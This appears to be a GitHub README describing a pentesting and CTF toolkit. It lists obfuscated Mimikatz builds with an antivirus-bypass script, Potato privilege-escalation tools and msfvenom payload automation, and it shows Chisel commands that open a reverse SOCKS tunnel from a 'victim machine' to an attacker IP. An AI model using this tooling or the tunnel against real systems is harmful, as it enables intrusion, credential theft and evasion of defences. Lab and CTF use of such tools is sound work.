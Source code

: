 # Kali Lootbox

This is a random collection of really handy scripts and binaries for use in pentesting or CTF. Some of the stuff I had to compile by hand because I couldn't find I couldn't find it anywhere else. Here's a list of the coolest stuff.

Some random things included...

* Chisel Client Socks - Static binaries for x86/x64 win/lin. This is a really cool tunneling application, but never supported reverse dynamic port forwarding with SOCKS5. I found some code that enables this support, and compiled the static binaries for both OS and architectures. Usage is like

```
# on kali box:
./chisel server -p 8080 --reverse

# on victim machine
chisel client 10.10.14.3:8080 R:socks

# edit /etc/proxychains.conf and change bottom line to:
socks5 127.0.0.1 1080

```

**Mount Shared Folder in VMWare**
It is unbelievable to me that Shared Folders in VMWare don't automatically mount or work in any way on Kali without jumping through hoops. I wrote a quick script you can run to mount the folder.

**Mimikatz** 
* Old binaries that still work well on server 2019
* A custom compiled version with some obfuscation
* Powershell obfuscation script based on BlackHills Infosec article:
https://www.blackhillsinfosec.com/bypass-anti-virus-run-mimikatz/

**Juicy and Rogue Potato Privesc Techniques**
* x86 version of Juicy Potato is nowhere to be found, adapted the project to work for a CTF that required it.

* RoguePotato - A newer adapter version of Juicy that works on the most modern systems

**Watson and Seatbelt**
* compile latest version of these awesome privesc tools

**Powershell scripts**
* A handful of random powershell scripts that query AD information. 
* A fix for Powercat that doesn't require you to hit the enter key of the victim side. Not sure what that is even a thing but it is.
* A runas script that works a lot like sudo for Windows. The example uses a user to launch netcat, but you can use any binary you want.

**Metasploit/MSFVenom Automation**
* Wrote some quick helper scripts to automatically create msfvenom payloads, and supplementary Metasploit resource files to catch with multi/handler. Makes it really quick and easy to stage a shell and listener.

**Misc Python Scripts**
* The badchars array for buffer overflow
* A script for automating VRFY lookups with a text file of addressess
* A simple ping scanner